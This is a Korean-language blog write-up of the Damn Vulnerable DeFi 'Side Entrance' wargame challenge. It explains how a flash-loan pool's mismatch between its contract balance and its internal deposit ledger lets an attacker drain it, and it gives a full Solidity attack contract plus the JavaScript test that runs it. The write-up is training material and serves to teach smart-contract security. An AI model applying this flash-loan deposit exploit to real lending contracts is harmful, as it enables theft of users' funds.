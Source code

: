 ```yaml
---
title: "DamnVulnerableDefi Side entrance 풀이"
author: Grizzly
categories:
  - Wargame
tags:
  - DamnVulnerableDefi
  - SideEntrace
  - Writeup

sitemap :
changefreq : daily
priority : 1.0
# table of contents
toc: true # 오른쪽 부분에 목차를 자동 생성해준다.
toc_label: "table of content" # toc 이름 설정
toc_icon: "bars" # 아이콘 설정
toc_sticky: true # 마우스 스크롤과 함께 내려갈 것인지 설정
---
```


## Overview
이 문제 역시 flashLoan에 관한 문제이고, `balance` 관리가 잘 못되어 취약점이 발생한다. `SideEntranceLenderPool.sol`이 주어지고, 이 파일에는 `SideEntranceLenderPool` 컨트랙트와 `IFlashLoanEtherReceiver` 인터페이스가 주어진다. ***이 문제의 목표는 `SideEntranceLenderPool` 컨트랙트가 가지고 있는 초기 자본인 `1000 eth`를 공격자가 모두 탈취하는 것이다.***

## 컨트랙트 분석
### SideEntranceLenderPool
~~~
contract SideEntranceLenderPool {
    using Address for address payable;

    mapping (address => uint256) private balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;  
    }

    function withdraw() external {
        uint256 amountToWithdraw = balances[msg.sender];
        balances[msg.sender] = 0;
        payable(msg.sender).sendValue(amountToWithdraw);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= amount, "Not enough ETH in balance");
        
        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");        
    }
}
~~~

이 컨트랙트는 다음과 같은 3개의 함수를 가지고 있다:
- `deposit()`: `msg.value`로 전달된 이더를 `msg.sender`의 잔고(`balances[msg.sender]`)에 추가.
- `withdraw()`: `msg.sender`가 가지고 있는 모든 이더를 `msg.sender`에게 전송.
- `flashLoan(uint256)`: 해당 컨트랙트의 잔액 체크와 함께 `IFlashLoanEtherReceiver` 인터페이스의 `execute()`를 호출. 이때, 대출금액(`amount`)를 전달.

`IFlashLoanEtherReceiver` 인터페이스에는 단순히 `execute()` 함수의 프로토타입만 선언되어 있다.

## Solution
이 문제는 선술한 것처럼 `balance` 체크에 문제가 있다.
`flashLoan` 함수를 보면, `execute()` 호출 전후로, `address(this).balance`를 이용해 현재 `SideEntranceLenderPool` 컨트랙트의 잔액을 확인한다.

반면, `deposit()`과 `withdraw()` 함수는 `SideEntranceLenderPool` 컨트랙트에 선언된 mapping 형 state variable인 `balances`를 이용해 잔액을 관리한다. 즉, `balances`에서 주소(혹은 계좌)간 잔액 이동이 발생해도 `address(this).balance`에는 변화가 없다. 

그리고, 당연하게도 `flashLoan` 함수에서 `IFlashLoanEtherReceiver` 인터페이스의 `execute()`를 호출하기 때문에 `flashLoan`을 호출하는 주체는 컨트랙트가 되어야 한다. 즉, 공격자는 자신의 스마트 컨트랙트를 작성하여 익스플로잇해야 한다. 위 내용들을 이용한 익스플로잇 시나리오는 다음과 같다.

1. 공격자가 `flashLoan()` 함수(`amount`는 `1000 eth`)를 호출하면, `execute` 함수가 호출되는데, `execute()`를 통해 다시 `deposit()`이 호출되도록 함. 이 과정에서 `balances`에 `SideEntranceLenderPool` 컨트랙트 주소가 가지고 있는 `1000 eth`가 공격자가 작성한 컨트랙트 주소로 이동됨.
2. `flashLoan` 함수가 종료되면, 공격자가 작성한 컨트랙트가 `withdraw()` 함수를 호출. 이 과정에서 `SideEntranceLenderPool` 컨트랙트에 쌓인 `1000 eth`가 공격자가 작성한 컨트랙트로 모두 전송됨.
3. `withdraw()` 함수 실행이 성공하면, Pool의 모든 이더가 공격자의 컨트랙트로 이동했기 때문에, 여유롭게 공격자의 주소로 *눈누난나*:D 이더를 전달함.

이 모든 과정을 수행하는 공격자의 컨트랙트는 다음과 같다.

~~~
contract AttackContract is IFlashLoanEtherReceiver {
    using Address for address payable;
    address payable public attacker;
    address public pool;

    constructor (address payable _attacker, address _pool) {
        attacker = _attacker;
        pool = _pool;
    }

    function execute() override external payable {
        SideEntranceLenderPool(pool).deposit{value: msg.value}();
    }

    function exploit(uint256 amount) public {
        SideEntranceLenderPool(pool).flashLoan(amount);

        SideEntranceLenderPool(pool).withdraw();
        payable(attacker).sendValue(address(this).balance);
    }

    fallback() external payable {

    }

    receive() external payable {

    }
}
~~~

그리고, 익스플로잇을 위한 Javascript 코드는 다음과 같다.

~~~
...
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */

    const AttackFactory = await ethers.getContractFactory("AttackContract", attacker);
    this.attackContract = await AttackFactory.deploy(attacker.address, this.pool.address);

    await this.attackContract.exploit(ETHER_IN_POOL);
    
});
...
~~~

***Sooooooooooo EZ***

## References
이번 문제는 너무 쉬워서 그런거 없다.